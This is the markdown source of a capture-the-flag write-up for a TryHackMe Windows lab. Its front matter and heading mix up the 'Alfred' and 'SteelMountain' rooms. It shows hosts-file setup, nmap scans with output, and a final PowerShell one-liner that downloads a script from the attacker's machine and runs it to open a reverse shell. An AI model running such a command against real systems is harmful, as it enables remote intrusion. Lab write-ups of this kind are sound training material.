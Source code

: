 ```yaml
---
title: TryHackMe - Alfred w/o Metasploit
publishDate: 2023-09-25
updateDate: 2023-09-25
author: Abhinav Kumar
image:   '~/assets/images/tryhackme-steelmountain.jpg'
excerpt: TryHackMe SteelMountain is a Windows box where we exploit Unquoted Service Paths, replace the service to get System user.
draft: false
category: TryHackMe
---
```


# SteelMountain

TryHackMe Link to SteelMountain Machine - [THM-SteelMountain](https://tryhackme.com/room/steelmountain)


We will Solve the Machine Completely and post that Answer to the Questions on TryHackMe in the end.


Adding machine to hosts file.
```bash
abhinav@ETHICALHACKX:~$ echo 10.10.145.60    alfred.thm | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.145.60 alfred.thm
```


## Nmapping 

```bash
abhinav@ETHICALHACKX:~$ ports=$(nmap -p- --min-rate=1000 -T5 alfred.thm | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
                                                                                                            
abhinav@ETHICALHACKX:~$ echo $ports
80,3389,8080
                                                                                                            
abhinav@ETHICALHACKX:~$ sudo nmap -sC -sV -A -O -T5 -p$ports alfred.thm -Pn
[sudo] password for abhinav: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 23:15 IST
Nmap scan report for alfred.thm (10.10.145.60)
Host is up (0.17s latency).

PORT     STATE SERVICE        VERSION
80/tcp   open  http?
3389/tcp open  ms-wbt-server?
8080/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host

TRACEROUTE (using port 3389/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.27 seconds
                              
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.58.66:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.58.66 -Port 1234```